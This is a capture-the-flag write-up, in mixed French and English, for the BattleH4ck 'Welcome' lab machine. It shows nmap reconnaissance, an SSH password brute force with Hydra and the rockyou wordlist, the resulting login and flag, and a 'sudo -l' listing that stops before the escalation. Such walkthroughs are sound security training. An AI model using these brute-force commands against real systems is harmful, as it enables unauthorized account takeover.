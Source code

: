 ```yaml
---
title: "BattleH4ck: Facile - Welcome"
description: Résolution de la machine Welcome
slug: battlehack_welcome
date: 2023-10-03 00:00:00+0000
image: images/welcome-cover.jpg
translationKey: battlehack_welcome
categories:
    - BattleH4ck
tags:
    - Linux
    - Pentest
weight: 1       
---
```

![image](https://user-images.githubusercontent.com/69204254/216841932-afe72fcb-e88d-4654-93f7-012e89faf17a.png)

## Données

En lisant la description de la mission, nous apprenons que nous pouvons nous connecter à la machine en sachant :

By reading the description of the mission, we can see that we need to connect to the machine by knowing that:

- L'utilisateur *devrait* être **seela**
- Le mot de passe *utilisé* est **faible**
- L'adresse IP est : 10.42.20.52

## Reconnaissance

### Analyse de pors

Tout d'abord, nous devons connaître quels services sont ouverts sur la machine.
Pour cela, nous allons utiliser l'outil *nmap* :

```bash
└─$ nmap 10.42.20.52 -T4 -sC -sV
```

```bash
Nmap scan report for 10.42.20.52
Host is up (0.064s latency).
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 fe:c2:f2:9c:8f:17:5d:66:9a:90:c9:e9:b3:1a:0a:bc (RSA)
|   256 ea:73:61:43:b8:7d:db:88:2b:d7:a8:16:39:49:b6:40 (ECDSA)
|_  256 be:5e:54:f8:6d:3c:de:7d:53:17:99:08:65:0c:34:a0 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Nmap done: 1 IP address (1 host up) scanned in 3.00 seconds
```

We can see that there is one open port which is SSH.
By remembering the given data, we have: 

- a username which *should* be **seela**
- a password which is *used* is **weak**

Before we continue, let's look at the used verbs.
There are "should" and "used".
When we look at the sentence about the password. There is the word "used" which is a bit confusing.
There are two possibilities of interpretation :

- **weak** is the password
- the password is weak, like to easy to guess

To know if the password is equal to **weak**, we should try to connect with it and with the username **seela**.
(The username is not that confusing, because it doesn't mean anything)

To connect to the machine by using our data, we can use **ssh**:

```bash
└─$ ssh seela@10.42.20.52
seela@10.42.20.54's password: weak
```

```bash
Permission denied, please try again.
```

By being denied, we can understand that our password is not equal to "weak" but is weak, like easy to guess.

### Bruteforce seela's password

To find the password used by seela, as Google says, we can use an attack called "bruteforce".
![image](https://user-images.githubusercontent.com/69204254/216843124-4edabd84-d823-4160-99b9-cc1e70e4f314.png)

In the first link: `https://null-byte.wonderhowto.com/how-to/gain-ssh-access-servers-by-brute-forcing-credentials-0194263/`
We can find that there is a tool called "Hydra" which can help us in this situation.
The website tells us that we need a username and a wordlist.
To know what wordlist we should use, we can try to ask google which one can be good to try.
![image](https://user-images.githubusercontent.com/69204254/216844703-e851e499-3d64-436c-aa13-1046feaed78f.png)

By looking at the first link, we can read that the wordlist rockyou can be good to try.
If you own a Kali Linux, rockyou can be found in /usr/share/wordlist/rockyou.txt.gz (you can also type the command: wordlists).

Right now, rockyou in gziped, to extract it, we can use **gunzip**, by doing:

```bash
└─$ sudo gunzip /usr/share/wordlists/rockyou.txt.gz
```

Now we have a wordlist, let's run Hydra !

```bash
└─$ hydra -l seela -P /usr/share/wordlists/rockyou.txt ssh://10.42.20.52 -t 4
```

```bash
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://10.42.20.54:22/
[22][ssh] host: 10.42.20.54   login: seela   password: rockyou
1 of 1 target successfully completed, 1 valid password found
```

We got our password, which **rockyou** !

Let's try to connect to the machine the same way we used to do:

```bash
└─$ ssh seela@10.42.20.52
seela@10.42.20.54's password: rockyou
```

```bash
Linux welcome-fb9c8a3a-e8e7-4841-801e-2855d61875c0-5b4df8d557-kpmdw 5.15.0-39-generic #42-Ubuntu SMP Thu Jun 9 23:42:32 UTC 2022 x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
seela@welcome-fb9c8a3a-e8e7-4841-801e-2855d61875c0-5b4df8d557-kpmdw:~$
```

As we can see, we are now connected !
The first flag is in the directory in which we are:

```bash
seela@welcome-fb9c8a3a-e8e7-4841-801e-2855d61875c0-5b4df8d557-kpmdw:~$ ls -l
```

```bash
total 4
-rw-r--r-- 1 root root 17 Feb  5 20:23 user.txt
```

```bash
└─$ cat user.txt
```

```bash
FLAG{someCharacters}
```

## Privilege Escalation

```bash
seela@welcome-fb9c8a3a-e8e7-4841-801e-2855d61875c0-5b4df8d557-kpmdw:~$ sudo -l
We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

[sudo] password for seela: rockyou
```

```txt
Matching Defaults entries for seela on welcome-fb9c8a3a-e8e7-4841-801e-2855d61875c0-5b4df8d557-kpmdw:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User seela may run the following commands on welcome-fb9c8a3a-e8e7-4841-801e-2855d61875c0-5b4df8d557-kpmdw:
    (root) /usr/bin/find *
```
